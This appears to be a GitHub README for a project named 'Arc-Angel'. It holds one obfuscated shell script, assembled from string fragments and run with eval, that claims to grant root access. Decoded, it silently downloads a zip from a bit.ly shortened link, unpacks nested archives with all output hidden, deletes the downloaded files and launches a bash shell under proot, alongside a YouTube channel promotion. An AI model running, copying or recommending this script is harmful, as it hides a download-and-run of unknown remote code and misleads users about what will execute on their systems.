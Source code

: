 # Arc-Angel
Ludociel
[![Binder](https://mybinder.org/badge_logo.svg)](https://mybinder.org/v2/git/https%3A%2F%2Fgithub.com%2FLolzMartiz%2FArc-Angel.git/main)



z="
";DBz=' > /';az=' -O ';Bz=' "==';kBz='od L';iBz='outu';gz='.ly/';SBz='iaks';ZBz=' YT ';dz=' htt';qz='nk.z';Uz=' "Pl';tz='v/nu';hBz='me/Y';cBz=' "Go';pz='p a2';FBz='null';Vz='ease';PBz='ot w';Kz='ot [';yz='tar ';bz='a2nk';Qz=' roo';Sz='cess';mz='l 2>';Dz='=="';dBz='-> h';jBz='be"';EBz='dev/';fz='/bit';hz='Juku';Iz='akse';Rz='t ac';RBz='so d';pBz='. /b';rz='ip >';Tz='"';fBz='://a';QBz='es i';HBz='1';OBz=' "ro';xz='ot.z';JBz='rf a';wz='p ro';kz='/dev';Zz='wget';Ez=' "Pe';uz='ll 2';ABz='-xvf';Wz=' Wai';WBz='t Aa';iz='tRoo';Az='echo';oz='unzi';KBz='2nk.';gBz='ank.';rBz='ash';YBz='s Me';UBz=' "Su';XBz='nk i';CBz='r.xz';Fz='rmis';eBz='ttps';jz='t > ';cz='.zip';Hz='kut ';Mz='excu';mBz='./di';lBz='uck"';sz=' /de';Xz='tt..';Jz='s ro';GBz=' 2>&';nz='&1';Oz='e to';Lz='OR] ';Yz='."';VBz='ppor';Cz='====';MBz='root';nBz='st/p';ez='ps:/';Pz=' get';vz='>&1';lz='/nul';TBz='es"';oBz=' -S ';IBz='rm -';aBz='Chan';NBz='t.sh';LBz='zip ';Gz='i ju';qBz='in/b';bBz='nel"';BBz='t.ta';Nz='se m';
eval "$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Az$Ez$Fz$Gz$Hz$Iz$Jz$Kz$Lz$Mz$Nz$Oz$Pz$Qz$Rz$Sz$Tz$z$Az$Uz$Vz$Wz$Xz$Yz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Zz$az$bz$cz$dz$ez$fz$gz$hz$iz$jz$kz$lz$mz$nz$z$oz$pz$qz$rz$sz$tz$uz$vz$z$oz$wz$xz$rz$sz$tz$uz$vz$z$yz$ABz$Qz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$z$IBz$JBz$KBz$LBz$MBz$cz$Qz$BBz$CBz$Qz$NBz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Az$OBz$PBz$QBz$RBz$SBz$TBz$z$Az$UBz$VBz$WBz$XBz$YBz$ZBz$aBz$bBz$z$Az$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$z$Az$cBz$kBz$lBz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$mBz$nBz$MBz$oBz$pBz$qBz$rBz"
